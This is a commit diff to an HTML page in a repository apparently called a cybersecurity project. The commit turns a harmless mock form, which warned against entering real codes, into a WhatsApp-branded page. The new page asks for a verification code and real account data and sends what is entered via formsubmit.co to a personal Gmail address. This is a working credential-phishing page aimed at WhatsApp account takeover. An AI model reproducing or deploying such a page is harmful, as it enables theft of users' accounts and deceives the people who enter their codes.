

Before and after one commit to taim02120-cyber/Cybersecurity-, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 125-800 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -4,60 +4,96 @@
 <head>
 <meta charset="UTF-8">
 <meta name="viewport" content="width=device-width, initial-scale=1">
-<title>محاكاة وهمية</title>
+<title>WhatsApp - تجربة الأرقام</title>
 <style>
 body {
   margin: 0;
-  padding: 55px 20px;
+  background: #f5f5f5;
   font-family: Arial, sans-serif;
+  display: flex;
+  justify-content: center;
+  align-items: center;
+  min-height: 100vh;
+}
+.panel {
+  background: white;
+  width: 85%;
+  max-width: 360px;
+  padding: 28px 22px;
+  border-radius: 12px;
   text-align: center;
-  background: white;
+  box-shadow: 0 2px 12px #0001;
 }
-h1 { font-size: 30px; font-weight: 500; }
-h2 { font-size: 20px; font-weight: 400; margin-top: 35px; }
-.panel {
-  max-width: 350px;
-  margin: 25px auto;
-  padding: 22px;
+h2 { color: #222; }
+input {
+  box-sizing: border-box;
+  width: 100%;
+  padding: 14px;
+  margin: 18px 0;
   border: 1px solid #ccc;
-  border-radius: 8px;
-}
-input {
-  width: 90%;
-  padding: 13px;
+  border-radius: 7px;
+  font-size: 18px;
   text-align: center;
-  font-size: 18px;
-  border: 1px solid #bbb;
-  border-radius: 5px;
 }
 button {
-  margin-top: 15px;
-  padding: 12px 25px;
+  width: 100%;
+  padding: 14px;
   border: 0;
-  border-radius: 5px;
-  background: #168b78;
+  border-radius: 7px;
+  background: #176b45;
   color: white;
+  font-size: 17px;
 }
-.note { color: #777; font-size: 13px; }
-#result { margin-top: 15px; overflow-wrap: anywhere; }
+.note {
+  color: #777;
+  font-size: 13px;
+}
 </style>
 </head>
 <body>
-<h1>واتساب</h1>
-<h2>إدخال رمز تحقق</h2>
 <div class="panel">
-  <strong>إدخال رمز تحقق</strong>
-  <p class="note">تجربة وهمية — لا تستخدم رمزاً حقيقياً</p>
-  <input id="code" placeholder="أدخل نصاً تجريبياً">
-  <button onclick="test()">اختبار</button>
-  <div id="result"></div>
+  <h2>Cyber Lab</h2>
+  </p>إرسال رقم اختبار التحقق</p>
+  <form id="testForm">
+    <input
+      type="text"
+      name="test_number"
+      placeholder="اكتب رقم التحقق"
+      inputmode="numeric"
+      required
+    >
+    <button type="submit">إرسال الاختبار</button>
+  </form>
+  <p class="note">هذه صفحة واتساب مستقلة.  رجاءادخل رمز تحقق و بيانات حسابات حقيقية.</p>
+  <p id="status"></p>
 </div>
+
 <script>
-function test() {
-  const value = document.getElementById("code").value;
-  document.getElementById("result").textContent =
-    value ? "تم استلام الإدخال التجريبي بنجاح." : "أدخل قيمة للاختبار.";
-}
+document.getElementById("testForm").addEventListener("submit", async function(e) {
+  e.preventDefault();
+  const status = document.getElementById("status");
+  status.textContent = "جارٍ الإرسال...";
+
+  try {
+    const response = await fetch("https://formsubmit.co/ajax/mohammedalkanoni63@gmail.com", {
+      method: "POST",
+      headers: {
+        "Content-Type": "application/json",
+        "Accept": "application/json"
+      },
+      body: JSON.stringify({
+        test_number: this.test_number.value,
+        _subject: " رقم االتحقق من واتساب WhatsApp"
+      })
+    });
+
+    if (!response.ok) throw new Error("Send failed");
+    status.textContent = "تم إرسال رقم التحقق .";
+    this.reset();
+  } catch (error) {
+    status.textContent = "تعذر الإرسال. تحقق من إعداد البريد.";
+  }
+});
 </script>
 </body>
 </html>
```
